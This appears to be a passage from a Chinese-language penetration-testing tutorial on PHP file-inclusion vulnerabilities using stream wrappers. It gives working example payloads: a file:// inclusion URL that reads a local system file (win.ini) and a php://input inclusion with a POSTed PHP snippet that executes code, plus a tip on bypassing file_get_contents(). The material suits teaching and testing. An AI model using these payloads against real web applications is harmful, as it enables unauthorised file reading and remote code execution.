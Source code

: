 ```php

glob:// — 查找匹配的文件路径模式

phar:// — PHP 归档

ssh2:// — Secure Shell 2

rar:// — RAR

ogg:// — 音频流

expect:// — 处理交互式的流
```

### file://

file://伪协议用于访问本地文件系统

利用条件：

1. 对allow\_url\_include不做要求。
2. 对allow\_url\_fopen不做要求。

姿势：

```php
fileinclude.php?file=file://C:/Windows/win.ini
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0ea13b256f1d8a5cd110e3077706e71e222d37f4.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0ea13b256f1d8a5cd110e3077706e71e222d37f4.png)

### php://input

可以访问请求的原始数据的只读流。即可以直接读取到POST上没有经过解析的原始数据。 `enctype="multipart/form-data"` 的时候 `php://input` 是无效的。

利用条件：

1. allow\_url\_include = On。
2. 对allow\_url\_fopen不做要求。

姿势：

```php
fileinclude.php?file=php://input

POST:
<?php phpinfo(); ?>
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8fed988e3d9c04b57854c300b1dd9cd4db2e0241.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8fed988e3d9c04b57854c300b1dd9cd4db2e0241.png)

#### 注意：碰到`file_get_contents()`就要想到用`php://input`绕过
